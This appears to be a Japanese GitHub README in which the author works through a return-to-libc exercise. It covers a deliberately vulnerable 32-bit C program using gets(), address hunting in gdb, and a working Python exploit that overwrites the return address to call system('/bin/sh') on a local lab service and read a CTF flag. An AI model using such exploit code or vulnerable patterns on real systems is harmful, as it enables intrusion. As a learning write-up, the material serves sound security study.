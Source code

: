 # PWNオーバーフロー入門: NX有効の状況で関数の戻り番地を書き換えてシェルコードを実行(SSP、ASLR、PIE無効で32bitELF)

## 脆弱性のあるコード

[saru2017/pwn003: PWNオーバーフロー入門: 関数の戻り番地を書き換えてシェルコードを実行(SSP、ASLR、PIE、NX無効で32bitELF)](https://github.com/saru2017/pwn003)のコードをそのまま利用する予定。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void saru()
{
  char buf[128];

  gets(buf);
  puts(buf);
}

int main(){
  saru();

  return 0;
}
```

コンパイルはSSPだけ無効に

```bash-statement
saru@lucifen:~/pwn004$ gcc -m32 -fno-stack-protector overflow04.c -o overflow04
overflow04.c: In function ‘saru’:
overflow04.c:9:3: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
   gets(buf);
   ^~~~
   fgets
/tmp/ccwtcIqy.o: In function `saru':
overflow04.c:(.text+0x20): warning: the `gets' function is dangerous and should not be used.
saru@lucifen:~/pwn004$ 
```

## リンクしてるライブラリを確認

```bash-statement
saru@lucifen:~/pwn004$ ldd ./overflow04
        linux-gate.so.1 (0xf7fd4000)
        libc.so.6 => /lib32/libc.so.6 (0xf7dea000)
        /lib/ld-linux.so.2 (0xf7fd6000)
saru@lucifen:~/pwn004$
```

## systemシステムコールの挙動を確認

systemでシェルを呼び出すだけの関数

```c
#include <stdio.h>

int main()
{
  system("/bin/sh");
  return 0;
}
```

コンパイル

```bash-statement
saru@lucifen:~/pwn004$ gcc -m32 -fno-stack-protector -no-pie test_system.c
test_system.c: In function ‘main’:
test_system.c:5:3: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
   system("/bin/sh");
   ^~~~~~
saru@lucifen:~/pwn004$ 
```
gdb-pedaで挙動を確認

```
[------------------------------------stack-------------------------------------]
0000| 0xffffd4e0 --> 0x80484f0 ("/bin/sh")
0004| 0xffffd4e4 --> 0xffffd5a4 --> 0xffffd6e6 ("/home/saru/pwn004/a.out")
0008| 0xffffd4e8 --> 0xffffd5ac --> 0xffffd6fe ("LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc"...)
0012| 0xffffd4ec --> 0x804843a (<main+20>:      add    eax,0x1bc6)
0016| 0xffffd4f0 --> 0xffffd510 --> 0x1
0020| 0xffffd4f4 --> 0x0
0024| 0xffffd4f8 --> 0x0
0028| 0xffffd4fc --> 0xf7e05e81 (<__libc_start_main+241>:       add    esp,0x10)
[------------------------------------------------------------------------------]
```

- 0x080484f0に/bin/bashが詰まれている。

## いろんな情報を調べる

- 0xffffd4dc: return address
- 0x080482e0: system
- 0xffffd450: buf 

生状態

- system = 0xf7e29d10
- puts = 0xf7e54360
- buf = 0xffffd4a0

gdb経由

- system = 0xf7e29d10
- puts = 0xf7e54360
- buf = 0xffffd460

telnet経由

- system = 0xf7e29d10
- puts = 0xf7e54360
- buf = 0xffffd470


生の方が64バイトでかい

他のプログラムで調べても

- system = 0xf7e29d10
- puts = 0xf7e54360

が出てくる。

## exploitコードを試す

### exploitコード

```python
import socket
import time
import struct
import telnetlib



def main():
    buf = b'A' * 140
    buf += struct.pack('<I', 0xf7e29d10)
    buf += b'A' * 4
    buf += struct.pack('<I', 0xffffd470 + 140 + 12)
    buf += b'/bin/sh'

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(("localhost", 28080))
    time.sleep(1)
    print(buf)
    sock.sendall(buf)

    print("interact mode")
    t = telnetlib.Telnet()
    t.sock = sock
    t.interact()



if __name__ == "__main__":
    main()
```


### 実行結果

```bash-statement
saru@lucifen:~/pwn004$ python exploit04.py
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x10\x9d\xe2\xf7AAAA\x08\xd5\xff\xff/bin/sh'
interact mode

cat flag.txt
flag is HANDAI_CTF

exit
*** Connection closed by remote host ***
saru@lucifen:~/pwn004$
```

## 疑問

system、puts、bufのアドレスはどうやって調べるんだ？

ぱっと思いつくのだとsystem、putsは同じ設定のプログラムをコンパイルしてアドレスを割り出して、bufのアドレスはgdbで動かした結果から推測しつつ総当たり？




## 参考サイト

- [Return-to-libcでDEPを回避してみる - ももいろテクノロジー](http://inaz2.hatenablog.com/entry/2014/03/23/233759)
- [Return-to-libcで連続して関数を呼んでみる - ももいろテクノロジー](http://inaz2.hatenablog.com/entry/2014/03/24/020347)
- [Return-oriented Programming (ROP) でDEPを回避してみる - ももいろテクノロジー](http://inaz2.hatenablog.com/entry/2014/03/26/014509)
